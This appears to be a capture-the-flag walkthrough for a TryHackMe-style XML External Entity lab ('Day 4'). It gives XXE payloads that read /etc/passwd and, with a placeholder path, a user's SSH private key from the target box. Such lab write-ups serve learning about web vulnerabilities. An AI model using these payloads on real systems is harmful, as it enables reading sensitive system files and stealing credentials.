 # Day 4
## XML External Entitiy

The first two task are only about understanding the text. If you cannot grasp the answer just read again carefully.
All answers are in the description if you didn't already know.
(except the last subtask of task 15 but it's easy to figure out if you have answered the previous two or you can just look it up online)

Just try these two simple payload on the box to grasp the general idea of how it works by yourself
+ first
```html
<!DOCTYPE replace [<!ENTITY name "Foe"> ]>
 <userInfo>
  <firstName>Light</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

If you need to display your own name in the first one just change it accordingly (it'll output Light Foe)


+ second one
```xml
 <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```


This one is the same, it'll be the same as cat /etc/passwd there is only one non-root non-service non-deamon at the las line.

The next one could get hard but lucky us they stored ssh keys in the standard way. They are usually stored in the home directory into a commonly known directory (I cannot explicit the answer
due to thm's policy) just google it and replace the path accordingly (username with what you know).

For the last answer just use the second payload to retrieve the key

```xml
 <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///path_to_ssh_key'>]>
<root>&read;</root>
```

and you'll get the key, just trim it and here we go.

Now let's wait for the realese of the next day :hugs:
